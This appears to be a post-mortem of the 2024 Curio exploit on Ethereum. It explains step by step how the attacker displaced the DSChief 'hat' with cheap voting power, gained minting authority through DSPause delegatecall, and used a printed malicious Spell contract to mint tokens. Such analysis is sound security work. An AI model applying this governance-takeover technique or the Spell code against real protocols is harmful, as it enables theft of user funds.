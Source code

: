 # Curio Public Mint
- **Type:** Exploit
- **Network:** Ethereum 
- **Total lost**: ~16MM USD 
- **Category:** Access Control
- **Vulnerable contracts:**
- - [Curio Chief](https://etherscan.io/address/0x579A3244f38112b8AAbefcE0227555C9b6e7aaF0#code)
- - [Curio Pause](https://etherscan.io/address/0x1e692eF9cF786Ed4534d5Ca11EdBa7709602c69f#code)

- **Attack transactions:**
- - [Privilege escalation and mint](https://etherscan.io/tx/0x4ff4028b03c3df468197358b99f5160e5709e7fce3884cc8ce818856d058e106)
  
- **Attacker Addresses**: 
- - Attacker EOA: [0xdaAa6294C47b5743BDafe0613d1926eE27ae8cf5](https://etherscan.io/address/0xdaAa6294C47b5743BDafe0613d1926eE27ae8cf5)
- - Attacker Contract (verified): [0x1E791527AEA32cDDBD7CeB7F04612DB536816545](https://etherscan.io/address/0x1E791527AEA32cDDBD7CeB7F04612DB536816545)
  
- **Attack Block:**:  `19,498,911`  
- **Date:** Mar 23, 2024
- **Reproduce:** `forge test --match-contract=Exploit_Curio -vvv`

## Step-by-step 
1. The attacker locked tokens into the `DSChief` contract.
2. Accumulated enough voting power.
3. Displaced (lifted) the current hat and set their contract as the new hat (without requiring many tokens).
4. The `DSPause` contract, upon making a `delegatecall`, checked `DSChief.canCall`, which returned true for the attacker's contract.
5. Consuming the authorized minter role from `DSPause`, the attacker executed a malicious instructions through a custom `Spell` contract to mint tokens directly to themselves.


## Detailed Description
Curio Finance leverages MakerDAO contracts for managing specific protocol functionalities. Their CSC Curio token, a `DSToken`, designates the `DSPauseProxy` contract as its minter. The `DSPause` contract relies on `DSChief.canCall` to verify if an authorized (privileged) call is permitted.
Then, executes a `delegatecall` through its proxy.

The operational vulnerability resided in the `DSChief` contract, which manages a HAT account that can be reconfigured with not much voting power. The attacker exploited this by locking tokens in `DSChief`, getting enough votes to lift and displace the current hat, subsequently positioning their contract as the new hat. The main issue was that the previous hat (Curio's `DSSSpell`) did not have enough voting power to consider the system safe, which allowed the easy and cheap displacement. 

The attacker was able to displace the `hat` by making the following calls on [chief.sol](https://github.com/CurioTeam/ds-chief/blob/simplify/src/chief.sol).

- Get initial voting weight.
```solidity
    function lock(uint128 wad)
        note
    {
        GOV.pull(msg.sender, wad);
        IOU.mint(wad);
        IOU.push(msg.sender, wad);
        deposits[msg.sender] = wadd(deposits[msg.sender], wad);
        addWeight(wad, votes[msg.sender]);
    }

    function addWeight(uint128 weight, bytes32 slate)
        internal
    {
        var yays = slates[slate];
        for( uint i = 0; i < yays.length; i++) {
            approvals[yays[i]] = wadd(approvals[yays[i]], weight);
        }
    }
```

```solidity
    function vote(bytes32 slate)
        note
    {
        uint128 weight = deposits[msg.sender];
        subWeight(weight, votes[msg.sender]);
        votes[msg.sender] = slate;
        addWeight(weight, votes[msg.sender]);
    }
```

- Displace the previous hat:
```solidity
    function lift(address whom)
        note
    {
        require(approvals[whom] > approvals[hat]);
        hat = whom;
    }
```

Since the authorized minter of the CSC Token is the `DSPauseProxy` which is controlled by the `DSPause` contract, by getting enough privileges through
the escalation made on the Chief the attacker was able to make the arbitrary `delegatecall` from the proxy.

- [`roles.sol`](https://github.com/dapphub/ds-roles/blob/495863375b87efe062eb3b723e6a199633ec7e51/src/roles.sol#L40):

These functions were called from the pause contract to validate the caller's privileges.
```solidity
    function canCall(address caller, address code, bytes4 sig)
        constant
        returns (bool)
    {
        if( isUserRoot(caller) || isCapabilityPublic(code, sig) ) {
            return true;
        } else {
            var has_roles = getUserRoles(caller);
            var needs_one_of = getCapabilityRoles(code, sig);
            return bytes32(0) != has_roles & needs_one_of;
        }
    }
```

- `chief.sol`:
```solidity
    function isUserRoot(address who)
        constant
        returns (bool)
    {
        return (who == hat);
    }
```

- [`pause.sol`](https://github.com/CurioTeam/ds-pause/blob/solc-0.5-0.6/src/pause.sol):

```solidity
    modifier auth {
        require(isAuthorized(msg.sender, msg.sig), "ds-auth-unauthorized");
        _;
    }

    function isAuthorized(address src, bytes4 sig) internal view returns (bool) {
        if (src == address(this)) {
            return true;
        } else if (src == owner) {
            return true;
        } else if (authority == address(0)) {
            return false;
        } else {
            return DSAuthority(authority).canCall(src, address(this), sig);
        }
    }
```

The following functions were used to enqueue and call for the execution on `DSPause`.
```solidity
    function plot(address usr, bytes32 tag, bytes memory fax, uint eta)
        public note auth
    {
        require(eta >= add(now, delay), "ds-pause-delay-not-respected");
        plans[hash(usr, tag, fax, eta)] = true;
    }
```

```solidity
    function exec(address usr, bytes32 tag, bytes memory fax, uint eta)
        public note
        returns (bytes memory out)
    {
        require(plans[hash(usr, tag, fax, eta)], "ds-pause-unplotted-plan");
        require(soul(usr) == tag,                "ds-pause-wrong-codehash");
        require(now >= eta,                      "ds-pause-premature-exec");

        plans[hash(usr, tag, fax, eta)] = false;

        out = proxy.exec(usr, fax);
        require(proxy.owner() == address(this), "ds-pause-illegal-storage-change");
    }
```

Finally, make the `delegatecall` from the `DSPauseProxy`:

```solidity
    function exec(address usr, bytes memory fax)
        public auth
        returns (bytes memory out)
    {
        bool ok;
        (ok, out) = usr.delegatecall(fax);
        require(ok, "ds-pause-delegatecall-error");
    }
```

Upon making that `delegatecall`, `DSPause` verifies through `DSChief.canCall`, which returned true given the attacker's contract was now the hat. Since `DSPause` executes actions with `delegatecall` and got minting authority for the token, the attacker deployed a malicious custom `Spell` contract to mint tokens directly to their address. 

- `Spell` contract:
```solidity
    function act(address user, IMERC20 cgt) public {
        IVat vat = IVat(0x8B2B0c101adB9C3654B226A3273e256a74688E57);
        IJoin daiJoin = IJoin(0xE35Fc6305984a6811BD832B0d7A2E6694e37dfaF);

        vat.suck(address(this), address(this), 10 ** 9 * 10 ** 18 * 10 ** 27);

        vat.hope(address(daiJoin));
        daiJoin.exit(user, 10 ** 9 * 1 ether);

        cgt.mint(user, 10 ** 12 * 1 ether);
    }
```

Then, the attacker made multiple swaps and cross-chain transfers using different providers.

## Possible mitigations
1. Implement stringent access controls to prevent unauthorized role changes
2. Simulate and test safe operative values for voting power. 
3. The system's voting power and privileges setup should be robust enough to prevent/handle voting power manipulation attacks, collusion, among others.

## Sources and references
- [Curio Tweet](https://twitter.com/curio_invest/status/1771635979192774674)
- [Hacken Tweet](https://x.com/hackenclub/status/1772288824799801401)
- [Rekt Article](https://rekt.news/curio-rekt/)
